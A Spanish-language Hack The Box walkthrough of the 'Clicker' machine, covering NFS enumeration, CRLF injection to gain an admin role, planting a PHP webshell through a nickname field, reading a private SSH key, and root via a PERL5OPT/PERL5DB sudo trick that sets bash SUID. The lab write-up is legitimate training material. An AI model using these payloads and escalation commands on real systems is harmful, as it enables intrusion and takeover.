








+++ 
draft = false
date = 2023-11-27T13:07:16+01:00
title = "Clicker HTB Walkthrough"
description = ""
slug = ""
authors = ["Dennis Gabriel"]
tags = []
categories = []
externalLink = ""
series = []
+++

La máquina Clicker de HTB es una máquina de nivel medio. Las técnicas principales empleadas para resolver la máquina son:

    - SQL Injection
    - CRLF Injection
    - Parameter Tampering
    - PHP Reverse Shell
    - Perl_startup Local Privilege Escalation


## Reconnaissance

Empezamos con un escaneo amplio de NMAP:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.232 -Pn -oG nmap_inicial
```

Los argumentos empleados significan lo siguiente:

    -sS: SYN port scan
    -T5: Timing template 5 de NMAP
    -vvv: Triple verbose para que NMAP imprima mucha información a la consola
    -p-: Escaneo de todos los puertos
    -Pn: Evita Host Discovery
    -oG: Formato grepeable

The scan returns the following information:


Parece que hay muchos puertos abiertos. Ahora ejecutamos otro escaneo NMAP, ahora con el objetivo de descubrir qué servicios se están ejecutando en estos puertos.

```sh
sudo nmap -sCV -p22,80,111,2049,36995,45521,48513,50555,54721 10.10.11.232 -oN nmap_exhaustivo -v
```

En este caso, los parámetros utilizados son:

    -sCV: Lanza todos los scripts de escaneo para descubrir los servicios y versiones que se ejecutan en estos puertos
    -oN: Formato NMAP
    -v: Single verbose

Los resultados de este segundo escaneo son los siguientes:


Los puertos SSH y HTTP habituales están abiertos. Ahora vamos a intentar enumerar subdirectorios por fuerza bruta con Feroxbuster. Primero, agregamos el sitio web a nuestro archivo /etc/hosts y luego ejecutamos Feroxbuster:

```sh
feroxbuster -u http://clicker.htb -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```


Descubrimos un subdirectorio "exports", que será útil en el futuro. Ahora, vamos a acceder a la página web y ver lo que hay.


Podemos hacernos una cuenta, jugar al juego y el juego guarda nuestra puntuación más alta.


Ahora, volvamos al puerto 2049. Parece que hay un servicio NFS (Network File Sharing) ejecutándose. Podemos intentar acceder a los archivos copiando y montando el volumen. Primero, creamos un directorio en /mnt/ ejecutando:

```sh
mkdir -p /mnt/nfs_file_shares
```

A continuación, intentamos montar el volumen mediante el comando mount:

```sh
mount -o nolock 10.10.11.232:/ /mnt/nfs_ile_shares
```

Hay un archivo backup.zip en el volumen montado.


## Acceso inicial

En este archivo zip está el código fuente del juego clicker y de la página web. Inspeccionando el archivo authenticate.php, podemos ver que hay un parámetro llamado role, que puede ser establecido a Admin:

```php
<?php
session_start();
include_once("db_utils.php");

if (isset($_POST['username']) && isset($_POST['password']) && $_POST['username'] != "" && $_POST['password'] != "") {
        if(check_auth($_POST['username'], $_POST['password'])) {
                $_SESSION["PLAYER"] = $_POST["username"];
                $profile = load_profile($_POST["username"]);
                $_SESSION["NICKNAME"] = $profile["nickname"];
                $_SESSION["ROLE"] = $profile["role"];
                $_SESSION["CLICKS"] = $profile["clicks"];
                $_SESSION["LEVEL"] = $profile["level"];
                header('Location: /index.php');
        }
        else {
                header('Location: /login.php?err=Authentication Failed');
        }
}
?>
```

El contenido de export.php también nos da una pista de que hay un rol llamado "Admin"

```php
<?php
session_start();
include_once("db_utils.php");

if ($_SESSION["ROLE"] != "Admin") {
  header('Location: /index.php');
  die;
}

function random_string($length) {
    $key = '';
    $keys = array_merge(range(0, 9), range('a', 'z'));

    for ($i = 0; $i < $length; $i++) {
        $key .= $keys[array_rand($keys)];
    }

    return $key;
}

$threshold = 1000000;
if (isset($_POST["threshold"]) && is_numeric($_POST["threshold"])) {
    $threshold = $_POST["threshold"];
}
$data = get_top_players($threshold);
$currentplayer = get_current_player($_SESSION["PLAYER"]);
$s = "";
if ($_POST["extension"] == "txt") {
    $s .= "Nickname: ". $currentplayer["nickname"] . " Clicks: " . $currentplayer["clicks"] . " Level: " . $currentplayer["level"] . "\n";
    foreach ($data as $player) {
    $s .= "Nickname: ". $player["nickname"] . " Clicks: " . $player["clicks"] . " Level: " . $player["level"] . "\n";
  }
} elseif ($_POST["extension"] == "json") {
  $s .= json_encode($currentplayer);
  $s .= json_encode($data);
} else {
  $s .= '<table>';
  $s .= '<thead>';
  $s .= '  <tr>';
  $s .= '    <th scope="col">Nickname</th>';
  $s .= '    <th scope="col">Clicks</th>';
  $s .= '    <th scope="col">Level</th>';
  $s .= '  </tr>';
  $s .= '</thead>';
  $s .= '<tbody>';
  $s .= '  <tr>';
  $s .= '    <th scope="row">' . $currentplayer["nickname"] . '</th>';
  $s .= '    <td>' . $currentplayer["clicks"] . '</td>';
  $s .= '    <td>' . $currentplayer["level"] . '</td>';
  $s .= '  </tr>';

  foreach ($data as $player) {
    $s .= '  <tr>';
    $s .= '    <th scope="row">' . $player["nickname"] . '</th>';
    $s .= '    <td>' . $player["clicks"] . '</td>'; 
    $s .= '    <td>' . $player["level"] . '</td>';
    $s .= '  </tr>';
  }
  $s .= '</tbody>';
  $s .= '</table>';
} 

$filename = "exports/top_players_" . random_string(8) . "." . $_POST["extension"];
file_put_contents($filename, $s);
header('Location: /admin.php?msg=Data has been saved in ' . $filename);
?>

```

Así que intentamos añadir el parámetro 'role=Admin' en la petición. 


Sin embargo, el script no nos deja, obviamente.


Intentemos saltarnos la comparación que hace a la hora de procesar el rol. Investigando la función strtolower() utilizada, es vulnerable a CRLF Injection (https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a). Ahora cuando inyectamos 'role%0d%0a=Admin', no muestra ese mensaje.


Ahora cerramos sesión e iniciamos sesión, y aparece un nuevo panel de Administración.


Aquí podemos comprobar y exportar las puntuaciones máximas. Esta exportación se guarda en el servidor. Me pregunto si de alguna manera podemos subir un php webshell.



Inspeccionando la petición enviada al pulsar Exportar, hay un parámetro llamado 'extension'. 




Modificándolo, podemos cambiar la extensión a php.


¡Y funciona! Comprobando el archivo:


Ahora, veamos de nuevo el contenido de export.php::

```php
<?php
session_start();
include_once("db_utils.php");

if ($_SESSION["ROLE"] != "Admin") {
  header('Location: /index.php');
  die;
}

function random_string($length) {
    $key = '';
    $keys = array_merge(range(0, 9), range('a', 'z'));

    for ($i = 0; $i < $length; $i++) {
        $key .= $keys[array_rand($keys)];
    }

    return $key;
}

$threshold = 1000000;
if (isset($_POST["threshold"]) && is_numeric($_POST["threshold"])) {
    $threshold = $_POST["threshold"];
}
$data = get_top_players($threshold);
$currentplayer = get_current_player($_SESSION["PLAYER"]);
$s = "";
if ($_POST["extension"] == "txt") {
    $s .= "Nickname: ". $currentplayer["nickname"] . " Clicks: " . $currentplayer["clicks"] . " Level: " . $currentplayer["level"] . "\n";
    foreach ($data as $player) {
    $s .= "Nickname: ". $player["nickname"] . " Clicks: " . $player["clicks"] . " Level: " . $player["level"] . "\n";
  }
} elseif ($_POST["extension"] == "json") {
  $s .= json_encode($currentplayer);
  $s .= json_encode($data);
} else {
  $s .= '<table>';
  $s .= '<thead>';
  $s .= '  <tr>';
  $s .= '    <th scope="col">Nickname</th>';
  $s .= '    <th scope="col">Clicks</th>';
  $s .= '    <th scope="col">Level</th>';
  $s .= '  </tr>';
  $s .= '</thead>';
  $s .= '<tbody>';
  $s .= '  <tr>';
  $s .= '    <th scope="row">' . $currentplayer["nickname"] . '</th>';
  $s .= '    <td>' . $currentplayer["clicks"] . '</td>';
  $s .= '    <td>' . $currentplayer["level"] . '</td>';
  $s .= '  </tr>';

  foreach ($data as $player) {
    $s .= '  <tr>';
    $s .= '    <th scope="row">' . $player["nickname"] . '</th>';
    $s .= '    <td>' . $player["clicks"] . '</td>'; 
    $s .= '    <td>' . $player["level"] . '</td>';
    $s .= '  </tr>';
  }
  $s .= '</tbody>';
  $s .= '</table>';
} 

$filename = "exports/top_players_" . random_string(8) . "." . $_POST["extension"];
file_put_contents($filename, $s);
header('Location: /admin.php?msg=Data has been saved in ' . $filename);
?>

```

Podemos ver que toma el parámetro 'nickname' al ejecutar el código. Intentemos insertar este snippet de php para obtener RCE en el parámetro nickname.

```php
<?php system($_GET['cmd']);?>
```


Ahora lo exportamos como php. Al acceder a la exportación con el parámetro cmd=id, podemos ver que el comando se ha ejecutado correctamente.



Ahora intentamos extablecer la reverse shell:


Y bingo, tenemos la reverse shell.



## Ejecución y persistencia

Haciendo un poco de enumeración, encontramos los siguientes archivos en /opt/manage:



El archivo README.txt contiene el uso de la bin execute_query. Pero tal vez hay más opciones que sólo 4:



Si probamos ./execute_query 5:



Quizás está esperando algunos argumentos. Probemos algunas cosas:


Probando más cosas, parece que este binario puede leer archivos, así que vamos a leer la clave SSH.


Comprobando /home/users, podemos ver que esta puede ser solo la clave ssh privada de jack. Formateándola correctamente (encabezado y pie de página correctos, y nueva línea al final), podemos hacer ssh al usuario jack y obtener la bandera de usuario.


## Escalada de privilegios

Ahora vamos a buscar métodos de escalada de privilegios. Empecemos con sudo -l:



Podemos ejecutar el script /opt/monitor.sh como root. Comprobando el script:


Utiliza /bin/bash y /bin/xml_pp. Veamos que es /bin/xml_pp


Es un binario perl que puede ser vulnerable a perl_startup Local Privilege Escalation. Tenemos que ejecutar:

```sh
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
```
```sh
bash -p
```

Y tenemos root!

